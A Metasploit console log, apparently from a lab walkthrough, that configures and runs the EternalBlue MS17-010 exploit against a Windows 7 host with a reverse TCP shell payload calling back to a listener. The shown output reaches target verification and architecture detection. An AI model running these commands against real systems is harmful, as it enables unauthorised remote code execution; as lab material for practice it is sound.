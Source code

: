 ```bash showLineNumbers
RHOSTS => 10.10.75.105
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.75.105     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded
                                             Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Stan
                                             dard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 tar
                                             get machines.


Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.158.144    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.158.144:4444 
[*] 10.10.75.105:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.75.105:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.75.105:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.75.105:445 - The target is vulnerable.
[*] 10.10.75.105:445 - Connecting to target for exploitation.
[+] 10.10.75.105:445 - Connection established for exploitation.
[+] 10.10.75.105:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.75.105:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.75.105:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.75.105:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.75.105:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.75.105:445 - Target arch selected valid for arch indicated by DCE/RPC reply
```